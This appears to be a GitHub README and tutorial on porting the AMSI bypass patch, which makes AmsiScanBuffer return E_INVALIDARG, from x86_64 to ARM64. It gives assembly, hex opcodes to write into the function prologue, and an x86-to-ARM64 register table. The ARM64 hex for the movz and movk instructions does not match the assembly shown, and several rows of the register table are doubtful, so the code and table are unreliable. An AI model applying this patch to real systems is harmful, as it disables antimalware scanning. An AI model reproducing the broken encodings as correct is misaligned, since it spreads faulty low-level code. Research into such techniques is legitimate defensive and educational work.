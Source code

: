 # ARM64 AMSI Patch

With the rise of ARM64 as an emerging architecture for Windows on ARM devices, there is an increasing need to understand and adapt low-level techniques traditionally used on x86_64 systems to this new platform. This repository demonstrates how AMSI (Antimalware Scan Interface) patching can be translated to ARM64, showcasing the fundamental differences and similarities in opcode manipulation between x86_64 and ARM64 architectures.

## Key Highlights
- **Focus on ARM64**: Showcases the application of AMSI bypass techniques specifically tailored for the ARM64 architecture, which is becoming more common in the Windows ecosystem.
- **Opcode Analysis**: Offers examples and explanations of how patching opcodes on ARM64 differs from x86_64, helping bridge the gap for those familiar with x86 internals.
- **Windows on ARM Research**: Contributes to the growing body of knowledge around system-level research on Windows ARM64 platforms and learn how ARM64 opcode patching works and how it compares to x86_64 patching, offering useful knowledge into architecture specific low-level operations.

## Why ARM64?
Windows on ARM is rapidly gaining traction with devices like the Surface Pro X and other Snapdragon-powered systems. As more software and security solutions are ported to ARM64, understanding the underlying architecture is crucial for both offensive and defensive security research.

## Why AMSI?
AMSI was chosen as the focus for this project because it represents a straightforward and well-known example for demonstrating binary patching techniques. It serves as an accessible starting point to illustrate the transition from x86_64 to ARM64 patching. Additionally, there is currently a noticeable lack of publicly available research or practical examples specifically covering AMSI patching on ARM64, positioning this work as a unique contribution to the community.

## Disclaimer
This repository is intended for educational and research purposes only. Use this knowledge responsibly.
#
#
# AMSI Patch Guide: x86_64 → ARM64

This guide explains how a common AMSI bypass patch is translated from x86_64 to ARM64, focusing on opcode differences and achieving the same functional result.

## Conceptual Overview:

```plaintext
┌───────────────────────────────────────────────────────────┐
│ Goal: Bypass AMSI by making AmsiScanBuffer return E_INVALIDARG (0x80070057) │
└───────────────────────────────────────────────────────────┘
```

### x86_64 Patch:
```asm
mov eax, 0x80070057 ; Set return value in EAX register
ret ; Return from function
```

**Machine Code (Hex):**
```asm
B8 57 00 07 80 C3
```

**Explanation:**
- `mov eax, 0x80070057` → `B8 57 00 07 80`
- `ret` → `C3`

### ARM64 Patch:
ARM64 uses a different instruction set. We need to set the return value in `x0` and return.
```asm
movz x0, #0x0057 ; Load lower 16 bits
movk x0, #0x8007, lsl #16 ; Load upper 16 bits
ret ; Return from function
```

**Machine Code (Hex):**
```asm
40 00 80 D2 ; movz x0, #0x57
00 1C 88 F2 ; movk x0, #0x8007, lsl #16
C0 03 5F D6 ; ret
```

## Visual Breakdown:

```asm
┌───────────────────────────────────────┐
│ x86_64 (Simple)                       │
├───────────────────────────────────────┤
│ mov eax, 0x80070057                   │
│ ret                                   │
│                                       │
│ **Hex: B8 57 00 07 80 C3**            │
└───────────────────────────────────────┘
```

```asm
┌───────────────────────────────────────┐
│ ARM64 (Immediate Encoding Needed)     │
├───────────────────────────────────────┤
│ movz x0, #0x0057                      │
│ movk x0, #0x8007, lsl #16             │
│ ret                                   │
│                                       │
│ **Hex: 40 00 80 D2 00 1C 88 F2 C0 03 5F D6** │
└───────────────────────────────────────┘
```

## Why the Extra Instructions on ARM64?
- **x86_64**: `mov eax, imm32` can load a 32-bit value directly.
- **ARM64**: Immediate values are encoded differently, large values require `movz` + `movk` to construct a 32-bit constant.

## End Result:
Both patches achieve the same outcome:
- **x86_64 → Set `eax` to `0x80070057` → Return**
- **ARM64 → Set `x0` to `0x80070057` → Return**

When patching, these byte sequences can be directly written into the AmsiScanBuffer prologue to bypass scanning.

## Additionally, a handmade conversion table for x86_64 to ARM64 registers can be found below.
```asm
x64 (x86-64)        ->   ARM64 (AArch64)
----------------------------------------
RSP  (Stack Ptr)    ->   SP  (Stack Ptr)
RBP  (Frame Ptr)    ->   FP  (X29 - Frame Ptr)
RIP  (Instr Ptr)    ->   PC  (Program Counter)
RAX  (General Reg)  ->   X0  (General Reg)
RBX  (General Reg)  ->   X1  (General Reg)
RCX  (General Reg)  ->   X2  (General Reg)
RDX  (General Reg)  ->   X3  (General Reg)
RSI  (General Reg)  ->   X4  (General Reg)
RDI  (General Reg)  ->   X5  (General Reg)
R8   (General Reg)  ->   X6  (General Reg)
R9   (General Reg)  ->   X7  (General Reg)
R10  (General Reg)  ->   X8  (General Reg)
R11  (General Reg)  ->   X9  (General Reg)
R12  (General Reg)  ->   X10 (General Reg)
R13  (General Reg)  ->   X11 (General Reg)
R14  (General Reg)  ->   X12 (General Reg)
R15  (General Reg)  ->   X13 (General Reg)
                        X14 (General Reg)
                        X15 (General Reg)
                        X16 (Scratch Reg)
                        X17 (Scratch Reg)
                        X18 (Platform Reg)
                        X19 (Saved Reg)
                        X20 (Saved Reg)
                        X21 (Saved Reg)
                        X22 (Saved Reg)
                        X23 (Saved Reg)
                        X24 (Saved Reg)
                        X25 (Saved Reg)
                        X26 (Saved Reg)
                        X27 (Saved Reg)
                        X28 (Saved Reg)
                        X30 (Link Register)

EFLAGS (Status Reg) ->   CPSR (Current Program Status Reg)

Dr0 - Dr3 (Debug)   ->   Bcr0 - Bcr7 (Breakpoint Registers)
Dr6, Dr7 (Debug)    ->   Bvr0 - Bvr7 (Breakpoint Value Registers)
                        Wcr0 - Wcr1 (Watchpoint Registers)
                        Wvr0 - Wvr1 (Watchpoint Value Registers)

FltSave (FPU/SIMD)  ->   V0 - V31 (128-bit SIMD & Floating Point Registers)
                        FPCR (Floating Point Control Register)
                        FPSR (Floating Point Status Register)
```
